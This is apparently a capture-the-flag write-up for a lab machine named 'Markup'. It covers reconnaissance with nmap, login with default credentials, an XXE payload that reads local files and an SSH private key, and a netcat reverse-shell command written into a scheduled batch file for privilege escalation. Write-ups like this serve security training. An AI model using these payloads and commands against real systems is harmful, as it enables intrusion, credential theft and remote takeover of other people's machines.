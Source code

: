 # Markup

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Apache  
  SSH  
  PHP  
  Reconnaissance  
  Scheduled Job Abuse  
  Weak Credentials  
  Arbitrary File Upload  
  XXE Injection  
  Weak Permissions  

#### Description
  Learn to about XXE attacks, how they work, and how to execute them. 

#### **XXE**
  *XML* or *Extensible Markup Language* defines a set of rules for encoding documents in a format for human and machine readability. 

  *XXE* or *XML External Entities* is a vulnerability from misconfiguration in XML parsers on a server. When XML input contains references to an external entity and lead to exposing confidential data, denial of service, server side request forgery, etc.

#### **XML 1.0 Standard**
  The structure of an XML document defines entities as a *storage unit of a certain type*. *External entities* have access to local or remote content from a declared system identifier. If the identifier contains tainted data, the XML processor dereferences it and can disclose confidential information. 

#### **Initial Enumeration**
  The flags we are going to use for this are a bit different:
  ``` bash
    nmap -sC -A -Pn {TARGET_IP}

    # -sC : equivalent to --script=default
    # -A  : enable OS detect, version detect, script scan ,and traceroute
    # -Pn : treat all hosts as online -- skip host discovery
  ```
  22/tcp  : ssh      : OpenSSH for_Windows_8.1 (protocol 2.0)
  80/tcp  : http     : Apache httpd 2.4.41 ((Win64) OpenSSHl/1.1.1c PHP/7.2.28)
  443/tcp : ssl/http : Apache/2.4.41 (Win64) 

  Checking the ip on a browser shows a webapp with a login portal. Trying using some default credentials works pretty well, and we gain access using *admin:password*. Most of the pages are just static but the Order page has an input box. 

#### **Request Proxying**
  Using BurpSuite to analyze requests, we can input arbitrary information into the text boxes and send it to find more information on the application. For example, XML is verison 1.0, the account who updated the webpage last has the name <code>Daniel</code> 

  For trying to read the <code>/etc/passwd</code> file, our best guess is that the target system is running Windows so we can test if this exploit would work by using <code>C:/windows/win.ini</code>. 

  ``` xml
    <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]> 
      <order> 
        <quantity> 3 </quantity> 
        <item> &test; </item> 
        <address> 17th Estate, CA </address> 
      </order>
  ```

  The response to this payload lets us know that XXE vulnerability is possible on the system:

  ![xml payload response](./assets/xml_payload_response.png)

#### **Daniel**
  From earlier I mentioned a user named Daniel. Here is where I found that by viewing the source page. 

  ![daniel page source](./assets/daniel.png)

  We can test to see if this is a user account on the target by sending for a couple files. One of them is the SSH <code>id_rsa</code>. Requesting for this yields a key. Using the key we can ssh into the target machine as Daniel. 

  There are also several files and directories that look interesting. Namely a batch file in a Log-Management folder. 

#### **Job.bat**
  Reading <code>job.bat</code> the program can only be run by Admin for the purpose of clearing logfiles. It uses a utility called <code>wevutil.exe</code> which has the ability to retrieve information about event logs and publishers, install/uninstall event manifests, run queries, and export, archive, and clear logs. 

  Running this to view the groups with permissions over the .bat file:
  ``` bash
    icacls job.bat
  ```
  Command Prompt is not able to use <code>ps</code> to view processes so we can switch to powershell and execute it. Now that we know job.bat is running. It comes to how to deliver a script to establish a reverse shell with the target system. Using <code>wget</code> we send over <code>nc64.exe</code>, now we need to create a netcat listener and execute the script on the host machine. 

  ``` 
    echo C:\Log-Management\nc64.exe -e cmd.exe {TUN0_IP} {PORT} > C:\Log-Management\job.bat
  ```

  Running nc64.exe we can establish the reverse shell with root access by going through job.bat. 